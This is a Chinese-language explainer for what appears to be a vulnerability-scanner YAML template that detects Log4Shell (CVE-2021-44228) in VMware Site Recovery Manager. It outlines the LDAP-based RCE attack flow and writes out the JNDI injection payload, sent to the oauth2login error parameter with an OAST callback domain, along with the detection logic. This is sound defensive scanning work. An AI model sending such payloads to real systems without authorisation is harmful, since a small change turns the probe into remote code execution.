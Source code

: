 # VMware Site Recovery Manager - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

VMware Site Recovery Manager 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，获取系统控制权。

## 2. 影响范围

- 受影响产品：VMware Site Recovery Manager（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到Site Recovery Manager接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送GET请求到如下接口：
  ```
  GET /dr/authentication/oauth2/oauth2login?error=${jndi:ldap://${:-<rand1>}${:-<rand2>}.${hostName}.uri.<interactsh-url>} HTTP/1.1
  Host: <目标主机>
  ```
  - <rand1>、<rand2>为随机数，<interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应体需包含`<title>Error - Site Recovery</title>`，确认目标为Site Recovery Manager。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. HTTP响应体中包含`<title>Error - Site Recovery</title>`，
  2. OAST平台收到带有对应随机标识的DNS查询，
  3. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  rand1, rand2 = 随机生成
  payload = '${jndi:ldap://${:-{rand1}}${:-{rand2}}.{hostName}.uri.<oast-domain>}'
  发送GET /dr/authentication/oauth2/oauth2login?error={payload}
  等待OAST平台回调
  若DNS查询中包含rand1, rand2, hostName，且HTTP响应含Error - Site Recovery：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的GET请求到/oauth2login] --> B{响应体含Error - Site Recovery?}
      B -- 否 --> F[非目标, 终止]
      B -- 是 --> C[等待OAST平台DNS回显]
      C --> D{DNS查询中含随机标识?}
      D -- 否 --> F
      D -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [Horizon3 Log4Shell Exploitation](https://www.horizon3.ai/the-long-tail-of-log4shell-exploitation/)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 